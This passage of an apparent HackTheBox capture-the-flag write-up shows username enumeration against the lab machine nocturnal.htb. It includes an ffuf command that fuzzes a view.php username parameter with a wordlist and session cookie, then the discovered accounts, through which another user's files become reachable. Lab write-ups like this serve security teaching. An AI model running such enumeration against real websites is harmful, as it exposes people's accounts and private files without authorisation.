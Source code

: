 This is an example of 2 requests where I have uploaded a file named: `test.pdf`

| Status | Method | File                                            | Size  |
| ------ | ------ | ----------------------------------------------- | ----- |
| 200    | GET    | view.php?username=pu1tz&file=test.pdf           | 3724B |
| 200    | GET    | view.php?username=InvalidUsername&file=test.pdf | 2985B |

### Exploitation Phase 1

```sh
┌──(kali㉿kali)-[~]
└─$ ffuf -u 'http://nocturnal.htb/view.php?username=FUZZ&file=test.pdf' -w ../SecLists/Usernames/xato-net-10-million-usernames.txt -H 'Cookie: PHPSESSID=tl6upcrisnqd21ot6bc2vr0q7n' -fs 2985 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://nocturnal.htb/view.php?username=FUZZ&file=test.pdf
 :: Wordlist         : FUZZ: /home/kali/Desktop/SecLists/Usernames/xato-net-10-million-usernames.txt
 :: Header           : Cookie: PHPSESSID=tl6upcrisnqd21ot6bc2vr0q7n
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 2985
________________________________________________

admin                   [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 25ms]
qwerty                  [Status: 200, Size: 3281, Words: 1177, Lines: 129, Duration: 36ms]
phoenix                 [Status: 200, Size: 3118, Words: 1175, Lines: 129, Duration: 19ms]
amanda                  [Status: 200, Size: 3205, Words: 1176, Lines: 129, Duration: 19ms]
tester                  [Status: 200, Size: 3193, Words: 1176, Lines: 129, Duration: 472ms]
tobias                  [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 19ms]
admin1                  [Status: 200, Size: 3109, Words: 1175, Lines: 129, Duration: 17ms]
```
>Note that you might find non-default users created by other people on the box, like most of the ones I found above.
{: .prompt-tip }

Exploring this I find the below file on the user account: `amanda` (admin doesn't have any files). She doesn't have my `test.pdf` file, however we can see all other files she has available.